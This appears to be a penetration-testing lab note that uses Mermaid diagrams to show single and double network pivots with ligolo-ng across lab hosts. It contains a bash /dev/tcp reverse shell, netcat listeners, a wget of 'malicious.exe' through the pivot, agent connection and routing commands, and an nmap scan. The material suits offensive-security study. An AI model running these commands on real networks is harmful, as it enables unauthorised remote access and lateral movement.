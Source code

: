 ```mermaid
sequenceDiagram
	participant K as KALI<br>10.10.14.3
	participant C as CONFLUENCE01<br>172.16.1.215
	participant P as PGDATABASE01<br>192.168.2.100
	participant D as MS01<br>192.168.123.50
	critical Setup a single pivot
		Note over K,C: see above
	end
	critical Execute a reverse shell
		Note over K: [Ensure within correct session]<br><br>>> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
		Note over K: nc -lvnp 4444
		Note over P: /bin/sh -i >& /dev/tcp/172.16.1.215/1234 0>&1
		P->>C: port 1234 #8592; P 
		activate C
		C->>K: port 4444 #8592; C
		deactivate C
	end
	critical Transfer a file
		Note over K: >> listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:8000
		Note over K: python -m http.server 8000
		Note over P: wget http://172.16.1.215:1235/malicious.exe
		P->>C: port 1235 #8592; P
		activate C
		C->>K: port 8000 #8592; C
		deactivate C
	end
```
#### Double pivot

```mermaid
sequenceDiagram
	participant K as KALI<br>10.10.14.3
	participant C as CONFLUENCE01<br>172.16.1.215
	participant P as PGDATABASE01<br>192.168.2.100
	participant D as MS01<br>192.168.123.50
	Note over K: [Ensure within correct session]<br><br>>> listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
	Note over P: ./agent.exe -connect 172.16.1.215:11601 -ignore-cert 
	Note over K: >> session<br>>> 2
	Note over K: [new terminal]<br>sudo ip route add 192.168.123.0/24 dev ligolo2
	Note over C: >> session<br>>> 2<br>>> start --tun ligolo2
	Note over K: nmap 192.168.123.50
	K->>C: 
	activate C
	C->>P: 
	deactivate C
	activate P
	P->>D: 
	deactivate P
```
#### Triple pivot

See [this article](https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c).



